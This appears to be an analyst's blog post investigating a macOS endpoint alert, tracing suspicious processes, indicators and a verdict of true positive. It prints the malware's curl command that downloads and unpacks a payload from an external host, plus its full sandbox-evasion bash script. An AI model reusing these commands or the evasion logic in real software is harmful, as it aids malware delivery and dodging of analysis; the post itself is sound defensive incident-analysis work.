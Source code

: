```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we
will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which
in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac
knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "
451CEB63-C438-40C3-899F-0BE4F425F074"?

This executable runs a download via curl of some additional code from external and extracts it to "
/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

And then it runs this helpexecd which amongst other things runs this bash script:

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running
in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
{% include mermaid_start.liquid %}
flowchart TD;
kernel_task --> launchd;
launchd --> xpcproxy;
xpcproxy --> |run| apadecoded;
apadecoded --> |run| 451CEB63-C438-40C3-899F-0BE4F425F074;
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
apadecoded --> |run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> curl;
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134;
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd;
helpexecd --> 35.160.226.50;
helpexecd --> 34.217.226.241;
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess
